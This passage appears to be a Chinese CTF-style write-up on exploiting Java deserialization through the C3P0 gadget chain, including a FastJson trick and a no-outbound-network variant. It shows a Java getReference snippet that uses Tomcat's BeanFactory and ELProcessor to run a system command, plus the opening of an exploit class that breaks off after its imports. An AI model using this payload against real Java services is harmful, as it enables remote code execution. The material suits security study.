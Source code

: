 ```java  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232046066.png)
这里利用FastJson构造了两次  
在给`UserOverridesAsString`赋值的时候做了一次判断  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232048029.png)
所以在第二次赋值的时候才能真正赋值上去。  
## C3P0链子的不出网利用  
在JNDI高版本利用中，可以加载本地的`Factory`类进行攻击，而利用条件之一就是该工厂类至少存在一个`getObjectInstance()`方法。比如通过加载`Tomcat8`中的`org.apache.naming.factory.BeanFactory`进行EL表达式注入  
导入依赖  
```xml  
&lt;dependency&gt;    
    &lt;groupId&gt;org.apache.tomcat&lt;/groupId&gt;    
    &lt;artifactId&gt;tomcat-catalina&lt;/artifactId&gt;    
    &lt;version&gt;8.5.0&lt;/version&gt;    
&lt;/dependency&gt;    
&lt;dependency&gt;    
    &lt;groupId&gt;org.apache.tomcat.embed&lt;/groupId&gt;    
    &lt;artifactId&gt;tomcat-embed-el&lt;/artifactId&gt;    
    &lt;version&gt;8.5.15&lt;/version&gt;    
&lt;/dependency&gt;  
```  
### C3P0链子的不出网利用分析与EXP  
已经确定是想通过EL表达式注入的方式攻击了，我们需要先选择攻击的链子。  
选择URLClassLoader的链子，把之前URLClassLoader的EXP进行一些修改即可  
```java  
 public Reference getReference() throws NamingException {      
            ResourceRef resourceRef = new ResourceRef(&#34;javax.el.ELProcessor&#34;, (String)null, &#34;&#34;, &#34;&#34;, true, &#34;org.apache.naming.factory.BeanFactory&#34;, (String)null);      
            resourceRef.add(new StringRefAddr(&#34;forceString&#34;, &#34;faster=eval&#34;));      
            resourceRef.add(new StringRefAddr(&#34;faster&#34;, &#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;)&#34;));      
            return resourceRef;      
        }  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232324999.png)
## 例题  
存在反序列化漏洞，但是禁止使用ldap  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232344646.png)
看一下lib  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409250042521.png)
存在C3P0直接打  
构造exp  
```java  
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;    
import java.io.*;    
import java.lang.reflect.Field;    
import javax.naming.NamingException;    
import javax.naming.Reference;    
import javax.naming.Referenceable;    
import javax.sql.ConnectionPoolDataSource;    
import javax.sql.PooledConnection;    
import java.sql.SQLException;    
import java.sql.SQLFeatureNotSupportedException;    
import java.util.Base64;    
import java.util.logging.Logger;    
    
public class c3p0 {    
```